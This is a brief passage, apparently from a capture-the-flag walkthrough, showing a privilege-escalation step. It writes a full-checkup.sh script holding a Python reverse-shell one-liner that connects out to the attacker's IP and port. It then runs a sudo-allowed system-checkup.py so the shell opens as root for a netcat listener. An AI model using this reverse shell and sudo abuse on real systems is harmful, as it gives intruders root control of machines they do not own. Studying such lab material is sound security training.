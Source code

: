 This is the full-checkup.sh script that we will create in /home/svc:

```bash
#!/bin/bash

export RHOST="<IP ADDRESS>";export RPORT=<PORT>;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

{{%sidenote %}} Make sure to replace `<IP ADDRESS>` and `<PORT>` with your own IP address and port number. {{% /sidenote %}}

If you have a netcat listener up and running, run 

```bash
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```
And you will get a reverse shell as root!
